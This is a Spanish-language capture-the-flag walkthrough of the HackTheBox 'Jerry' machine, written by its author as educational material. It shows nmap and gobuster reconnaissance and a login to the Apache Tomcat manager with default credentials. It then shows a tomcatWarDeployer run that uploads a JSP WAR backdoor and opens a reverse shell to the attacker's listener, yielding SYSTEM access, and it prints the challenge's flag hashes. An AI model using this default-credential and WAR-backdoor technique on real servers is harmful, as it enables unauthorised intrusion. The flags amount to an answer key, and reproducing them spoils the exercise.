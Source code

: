 # HackTheBox JERRY Walkthrough

## Introducción 

Jerry es una máquina virtual de tipo CTF suministrada por HackTheBox creada por "mrh4sh". Esta basada en Microsoft Windows OS, en esta ocasión mostraré los pasos que tome para comprometer la maquina.

## Recolección de información

```
[mcruz@lilo ~]# export ip=10.10.10.95
[mcruz@lilo ~]# nmap -sC -sS -sV -A $ip
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2008|7|Vista (91%)

```
Podemos ver en la salida de nmap el puerto 8080 esta abierto corriendo Apache Tomcat/Coyote JSP engine 1.1, con una posible version de Windows (Microsoft Windows 2012|2008|7|Vista).

Si entramos a la dirección http://10.10.10.95:8080 se puede notar una instalación por defecto de Apache Tomcat/7.0.88, procedemos a correr gobuster en busca de directorios que puedan servirnos.


```
[mcruz@lilo ~]# gobuster -u http://$ip:8080/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100 

```
Esto nos da una lista de directorios encontrados, el que nos interesa es el “/manager”

Poniendo los credenciales “admin:admin” no resulto, leyendo el error pude darme cuenta de los passwords por defecto que utiliza la aplicación, trate con “admin:s3cret” y todo funciona.

Luego de la información obtenida con nmap y gobuster, buscamos un exploit para el Apache Tomcat/Coyote JSP engine 1.1. Con searchsploit no obtuve ningun resultado, buscamo en GOOGLE de la siguiente manera: "exploit tomcat war file". En caso de no tener conocimiento de que son los archivos WAR  -- https://en.wikipedia.org/wiki/WAR_(file_format) -- 

Usando metasploit es posible con el tomcat_mgr_upload, pero para esta maquina no tuve exito.

Encontré https://github.com/mgeeky/tomcatWarDeployer una herramienta para pwning WAR de tomcat muy funcional. Leyendo el manual de ayuda pude identificar las opciones a utilizar.

```
[mcruz@lilo ~]# git clone https://github.com/mgeeky/tomcatWarDeployer
[mcruz@lilo ~]# cd tomcatWarDeployer
[mcruz@lilo ~]# python tomcatWarDeployer.py -v -x -p 5555 -H 10.10.14.8 10.10.10.95:8080
INFO: Reverse shell will connect to: 10.10.14.8:5555.
DEBUG: Browsing to "http://10.10.10.95:8080/"... Creds: "tomcat:s3cret"
DEBUG: Trying to fetch: "http://10.10.10.95:8080/"
DEBUG: Probably found something: Apache Tomcat/7.0.88
DEBUG: Trying to fetch: "http://10.10.10.95:8080/manager"
DEBUG: Probably found something: Apache Tomcat/7.0.88
DEBUG: Apache Tomcat/7.0.88 Manager Application reached & validated.
DEBUG: Generating JSP WAR backdoor code...
DEBUG: Preparing additional code for Reverse TCP shell
DEBUG: Generating temporary structure for jsp_app WAR at: "/tmp/tmp94hvDg"
DEBUG: Working with Java at version: 1.8.0_144
DEBUG: Generating web.xml with servlet-name: "JSP Application"
DEBUG: Generating WAR file at: "/tmp/jsp_app.war"
DEBUG: added manifest
adding: files/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/web.xml(in = 505) (out= 254)(deflated 49%)
adding: files/META-INF/(in = 0) (out= 0)(stored 0%)
adding: files/META-INF/MANIFEST.MF(in = 69) (out= 68)(deflated 1%)
adding: index.jsp(in = 4493) (out= 1682)(deflated 62%)
WARNING: Application with name: "jsp_app" is already deployed.
DEBUG: Unloading existing one...
DEBUG: Unloading application: "http://10.10.10.95:8080/jsp_app/"
DEBUG: Succeeded.
DEBUG: Deploying application: jsp_app from file: "/tmp/jsp_app.war"
DEBUG: Removing temporary WAR directory: "/tmp/tmp94hvDg"
DEBUG: Succeeded, invoking it...
DEBUG: Spawned shell handling thread. Awaiting for the event...
DEBUG: Awaiting for reverse-shell handler to set-up
DEBUG: Establishing listener for incoming reverse TCP shell at 10.10.14.8:5555
DEBUG: Socket is binded to local port now, awaiting for clients...
DEBUG: Invoking application at url: "http://10.10.10.95:8080/jsp_app/"
DEBUG: Adding 'X-Pass: K3n50PKbr0mp' header for shell functionality authentication.
DEBUG: Incoming client: 10.10.10.95:49200
DEBUG: Application invoked correctly.
INFO: JSP Backdoor up & running on http://10.10.10.95:8080/jsp_app/
INFO: Happy pwning. Here take that password for web shell: 'K3n50PKbr0mp'
INFO: Connected with: nt authority\system@JERRY

C:\apache-tomcat-7.0.88> whoami
nt authority\system


```
Nota: El script debe ser modificado en base a nuestras necesidades, poner como clave (s3cret) dentro del arreglo.

Esto nos dará una shell de Windows con altos privilegios "nt authority\system", lo que quiere decir que no tenemos que escalar privilegios.

```
C:\apache-tomcat-7.0.88> dir C:\Users\Administrator\Desktop\ 
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes

```
```
C:\apache-tomcat-7.0.88> dir C:\Users\Administrator\Desktop\flags *.txt
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               0 File(s)              0 bytes

```
El archivo que buscamos es 2 for the price of 1.txt, al tener espacios debemos mostrar su contenido con las comillas.

```
C:\apache-tomcat-7.0.88> type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\Users\Administrator\Desktop\flags>

```




Con esto ya tenemos los has del usuario normal y el usuario root, los cuales tendremos que suministrar en HackTheBox.




**AUTOR:**

```
Michael Cruz Sánchez
Academia Código Libre Dominicano Junio 2018
<superlinux.michael5> at <gmail.com>

```



